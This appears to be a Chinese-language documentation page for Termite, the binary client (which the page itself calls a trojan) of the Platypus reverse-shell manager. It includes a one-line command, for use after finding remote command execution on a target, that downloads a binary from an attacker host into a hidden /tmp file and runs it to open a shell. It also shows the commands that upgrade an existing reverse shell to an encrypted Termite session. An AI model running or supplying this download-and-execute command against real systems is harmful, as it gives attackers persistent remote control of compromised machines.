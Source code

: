 # Termite

## Termite 是什么？

Termite 是 Platypus 提供的一个二进制客户端，提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./08-tunnel.md)功能
* 更加稳定可靠的文件操作

## 直接获取 Termite Shell

当您在目标网站已经发现了一个远程命令执行漏洞的时候，可以执行通过执行如下命令直接生成 Termite Shell。

```bash
curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
```

## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用如下命令来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

```
» Jump d2958c94f5425eb709fb5c8690128268
» Upgrade 1.3.3.7:13337
```

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。
